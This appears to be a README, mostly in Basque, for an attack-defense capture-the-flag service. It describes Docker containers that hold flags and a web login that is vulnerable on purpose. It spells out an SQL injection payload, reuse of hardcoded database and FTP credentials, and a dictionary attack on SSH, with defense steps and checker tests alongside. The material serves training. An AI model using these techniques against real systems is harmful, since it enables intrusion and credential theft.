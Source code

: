 # Service definition:
- 4 docker dauzkagu: 
1. Ubuntu:latest  ssh zerbitzuarekin eta flagak dituena.
2. fauria/vsftpd:latest ftp zerbitzuarekin eta flagak dituena ere. 
3. mariadb:latest mariadb datu base bat duena eta flagak dituena ere.
4. php:7.4-apache web zerbitzari bat duena.

Erasotzaileak web zerbitzaria sarrerea dauka eta bertan informazioa nola lortu bilatu behar du.
Flagak beste 3 dockerretan gordetzen dira. Flag guztiak mariadb, ftp eta ssh dockerretan gordetzen dira.

# Service implementation:
web dockerra src karpetan dauden index.html, login.php eta db.php fitxategien kopia ditu dockerraren /var/www/html/ karpetan.
  - Erasotzaileek db.php fitxategia aldatzeko aukera dute.

mariadb dockerran db izeneko datubase bat sortzen da:
  - usuarios taulan zenbait erabiltzaile eta pasahitz daude. (ftp dockerrarenak barne)
  - flags taulan txanda bakoitzeko flagak gordeko dira.

ftp dockerran usernames.txt eta passlist.txt izeneko bi fitxategi daude eta /home/vsftpd/ftpuser/ karpetan daude kokatuta.
  - Fitxategi hauen edukiak ezin dira aldatu.
  - Flagak flags.txt izeneko fitxategi batena gordeko dira aurreko fitxategin karpeta berean.

ssh docker is configured attending to the following tips:
  - It has openssh-server installed and started. 
  - It has a user called 'shaktale' whose password is 'fortrash'. 
  -'shaktale' user's password will never be changed. Moreover, if a team changes it, it will be losing SLa points. 
  -Flags: 
    Flags will be stored in '/tmp/flags.txt' file. 



# About exploting:
- Erasotzaileak SQL Injection eraso bat egin behar du web orrian. Horretarako (' or ''=') textu sartu beharko ditu web orriaren formularioaren 2 kutxatan.
- Erasoa ondo ateratzen bada, jatorrizko kodean datu-basean sartzeko kredentzialak ikusgai izango ditu.
- Defendatzailea mariadb-ko erabiltzaiearen pasahitza aldatu beharko du.
  Erasoa Team2-ren kontra
    - mariadb -upNce -pht3Zklyy db "SELECT flag FROM flags ORDER BY id DESC LIMIT 5;"
    - kopiatu azken 5 flagak.
    - Konektatua 10.0.2.1 makinara ssh bitartez eta bertan /root/xx.flag fitxtegian itsatsi.
  Defentza
    - mariadb -upNce -pht3Zklyy db "SET PASSWORD FOR 'pNce'@'%' = PASSWORD('newpass');"

- Erasotzailea mariadb zerbitzuan usuarios izeneko taula bat ikusiko du baita. Bertan erabiltzaile eta pasahitz batzuk aurkitutko ditu, ftp zerbitzukoak barne.
  Erasoa Team1-en kontra
    - usuarios taularen edukia lortu (select * from usuarios)
    - Erabiltzaile bakoitzeko ftp konekzioa bat saiatu erabiltzaile zuzena lortu arte (ftp VgMY@10.0.1.101 - pasahitza B5yYTXF3)
    - Behin konekzioa eginda 3 fitxategi aurkituko ditu: usernames.txt, passlist.txt eta flags.txt
    - flags.txt fitxategiko azkenengo flagak kopiatu eta 10.0.1.1 makinaren /root/xx.flag fitxategian kopiatu ssh bitartez.

  Defentza
    - ftp VgMY erabiltzaiaren pasahitza aldatu.

- Azken erasoa ssh zerbitzuaren kontra egingo da usernames.txt eta passlist.txt fitxategietan dagoen edukia erabilita, hiztegi eraso bat egiten.
  Attack performed against Team1. 
  Dictionary based attack until we find shaktale:fortrash user.
  ssh -p 8822 shaktale@10.0.1.101
        Enter 'fortrash' as password
  cat /tmp/flags.txt
     Copy last flags
     Exit
  'ssh root@10.0.1.1'
  nano /root/xxx.flag
    Paste copied flags. 

  Defense performed by Team1
     'ssh root@10.0.1.101'
     docker exec -it pasapasa_ssh_1 /bin/bash
     passwd shaktale
     

# Checker checks:
- Ports to reach dockers are open (WEB:80; MARIADB:3306, FTP: 21,20, SSH 8822)
- User 'shaktale' exists in pasapasa_ssh docker. 
- User 'VgMY' exists in pasapasa_ftp docker. 
- /etc/sshd_config file from pasapasa_ssh docker has not been changed. 
- index.html and login.php file's content from pasapasa_web docker has not been changed. 
- usernames.txt and passlist.txt file's content from pasapasa_ftp docker has not been changed. 

Checks done: 
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop pasapasa_web_1' It works OK, service's status becomes DOWN. 
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop pasapasa_mariadb_1' It works OK, service's status becomes DOWN.
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop pasapasa_ftp_1' It works OK, service's status becomes DOWN.
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop pasapasa_ssh_1' It works OK, service's status becomes DOWN.
- TEAM 1. 'userdel shaktale'. It works OK, service's status becomes faulty. 
- TEAM 1. Change '/etc/sshd_config' file from 'pasapasa_ssh_1' docker. It works OK, service's status becomes faulty.
- TEAM 1. Change 'index.html' and/or 'login.php' file from 'pasapasa_web' docker. It works OK, service's status becomes faulty.
- TEAM 1. Change 'usernames.txt' and/or 'passlist.txt' file from 'pasapasa_ftp' docker. It works OK, service's status becomes faulty.
- TEAM 1. 'ssh service stop'. It works OK, service's status becomes faulty. 
- TEAM 1. 'apache2 service stop'. It works OK, service's status becomes faulty. 
- TEAM 1. 'mariadb service stop'. It works OK, service's status becomes faulty. 
- TEAM 1. 'vsftpd service stop'. It works OK, service's status becomes faulty. 



